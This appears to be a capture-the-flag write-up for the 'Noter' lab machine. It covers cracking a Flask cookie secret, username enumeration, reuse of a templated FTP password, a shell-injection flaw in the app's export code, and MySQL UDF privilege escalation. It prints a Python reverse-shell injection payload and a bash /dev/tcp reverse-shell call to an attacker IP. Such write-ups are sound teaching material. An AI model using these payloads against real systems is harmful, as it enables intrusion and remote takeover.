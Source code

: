 # Noter

Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (58) (2).png" alt=""><figcaption></figcaption></figure>

Port 5000 was a HTTP port that was running some notetaking application.&#x20;

### JWT Token Brute Force

The web application allowed us to register or login:

<figure><img src="../../../.gitbook/assets/image (33) (2).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:

<figure><img src="../../../.gitbook/assets/image (65) (2).png" alt=""><figcaption></figcaption></figure>

When decrypted, we can see that it contains some data:

<figure><img src="../../../.gitbook/assets/image (69) (2).png" alt=""><figcaption></figcaption></figure>

Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16) (4) (1).png" alt=""><figcaption></figcaption></figure>

With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

If we did this a user that does not exist, it would tell us `Invalid Credentials`.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (1).png" alt=""><figcaption></figcaption></figure>

With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption></figcaption></figure>

Then I filtered the results using the `Invalid Login` string.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

### FTP Credentials

With access to this new user, we can view more hidden notes:

<figure><img src="../../../.gitbook/assets/image (43) (3).png" alt=""><figcaption></figcaption></figure>

The first one was the most interesting as it revealed some FTP Credentials:

<figure><img src="../../../.gitbook/assets/image (29) (1) (3).png" alt=""><figcaption></figcaption></figure>

Logging into FTP, we can gain access to a password policy PDF.

<figure><img src="../../../.gitbook/assets/image (3) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

Reading the Password Policy, we can see that the passwords are all templated:

<figure><img src="../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.&#x20;

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:

<figure><img src="../../../.gitbook/assets/image (40) (2).png" alt=""><figcaption></figcaption></figure>

Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.&#x20;

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (5) (1).png" alt=""><figcaption></figcaption></figure>

When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (68) (2).png" alt=""><figcaption></figcaption></figure>

For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:

<figure><img src="../../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With the MySQL Creds, we can login as root:

<figure><img src="../../../.gitbook/assets/image (60) (2).png" alt=""><figcaption></figcaption></figure>

Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:

{% embed url="https://www.exploit-db.com/raw/1518" %}

<figure><img src="../../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (67) (2).png" alt=""><figcaption></figcaption></figure>
